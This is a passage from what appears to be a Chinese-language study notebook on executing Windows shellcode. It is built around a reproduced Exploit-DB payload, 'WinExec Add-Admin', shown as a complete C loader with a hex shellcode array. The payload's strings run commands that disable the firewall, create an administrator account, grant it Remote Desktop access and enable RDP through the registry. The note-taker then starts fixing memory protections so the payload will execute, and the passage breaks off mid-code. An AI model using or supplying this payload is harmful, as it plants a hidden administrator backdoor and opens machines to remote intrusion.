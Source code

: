 #### 【2】[Windows/x64 - WinExec Add-Admin (ROOT/I@mR00T$) Dynamic Null-Free Shellcode](https://www.exploit-db.com/shellcodes/48252)
* 实现：在Windows x64环境下添加管理员用户   
  * 代码
```c
#include <windows.h>
#include <stdio.h>
char code[] = \
"\x89\xe5\x83\xec\x30\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b"
"\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7"
"\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53"
"\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\xe8\x31\xc9\xfc\x8b"
"\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x0f\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4"
"\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50"
"\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\xe8\xe8\xb0\xff"
"\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f"
"\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x72\x74\x50"
"\x68\x6d\x73\x76\x63\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x6d\x52"
"\x68\x73\x79\x73\x74\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x31\xc9\x66\xb9"
"\x4c\x45\x51\x68\x49\x53\x41\x42\x68\x64\x65\x3d\x44\x68\x65\x20\x6d\x6f\x68\x70\x6d"
"\x6f\x64\x68\x65\x74\x20\x6f\x68\x6c\x6c\x20\x73\x68\x72\x65\x77\x61\x68\x68\x20\x66"
"\x69\x68\x6e\x65\x74\x73\x54\x8b\x45\xd8\xff\xd0\x31\xc9\x51\x68\x2f\x61\x64\x64\x68"
"\x79\x21\x21\x20\x68\x43\x40\x6e\x64\x68\x72\x6e\x55\x32\x68\x75\x20\x54\x75\x68\x69"
"\x6e\x42\x75\x68\x20\x4d\x61\x6a\x68\x75\x73\x65\x72\x68\x6e\x65\x74\x20\x54\x8b\x45"
"\xd8\xff\xd0\x31\xc9\x51\xb9\x90\x61\x64\x64\xc1\xe9\x08\x51\x68\x75\x75\x20\x2f\x68"
"\x6a\x69\x6e\x42\x68\x73\x20\x4d\x61\x68\x61\x74\x6f\x72\x68\x69\x73\x74\x72\x68\x64"
"\x6d\x69\x6e\x68\x75\x70\x20\x41\x68\x6c\x67\x72\x6f\x68\x6c\x6f\x63\x61\x68\x6e\x65"
"\x74\x20\x54\x8b\x45\xd8\xff\xd0\x31\xc9\x51\xb9\x90\x61\x64\x64\xc1\xe9\x08\x51\x68"
"\x75\x75\x20\x2f\x68\x6a\x69\x6e\x42\x68\x22\x20\x4d\x61\x68\x73\x65\x72\x73\x68\x6f"
"\x70\x20\x55\x68\x65\x73\x6b\x74\x68\x74\x65\x20\x44\x68\x52\x65\x6d\x6f\x68\x75\x70"
"\x20\x22\x68\x6c\x67\x72\x6f\x68\x6c\x6f\x63\x61\x68\x6e\x65\x74\x20\x54\x8b\x45\xd8"
"\xff\xd0\x31\xc9\x51\x68\x30\x20\x2f\x66\x68\x20\x2f\x64\x20\x68\x57\x4f\x52\x44\x68"
"\x45\x47\x5f\x44\x68\x2f\x74\x20\x52\x68\x6f\x6e\x73\x20\x68\x65\x63\x74\x69\x68\x43"
"\x6f\x6e\x6e\x68\x6e\x79\x54\x53\x68\x20\x66\x44\x65\x68\x22\x20\x2f\x76\x68\x72\x76"
"\x65\x72\x68\x6c\x20\x53\x65\x68\x6d\x69\x6e\x61\x68\x5c\x54\x65\x72\x68\x74\x72\x6f"
"\x6c\x68\x5c\x43\x6f\x6e\x68\x6c\x53\x65\x74\x68\x6e\x74\x72\x6f\x68\x6e\x74\x43\x6f"
"\x68\x75\x72\x72\x65\x68\x45\x4d\x5c\x43\x68\x53\x59\x53\x54\x68\x49\x4e\x45\x5c\x68"
"\x4d\x41\x43\x48\x68\x43\x41\x4c\x5f\x68\x59\x5f\x4c\x4f\x68\x22\x48\x4b\x45\x68\x61"
"\x64\x64\x20\x68\x72\x65\x67\x20\x54\x8b\x45\xd8\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
  * 执行代码发现同样出现了访问冲突的报错   
    ![](image/5.png)    
  * 方法同上，修改主函数，将访问内存的属性修改为可读可写可执行：
    ```c
    int main(int argc, char** argv)
    {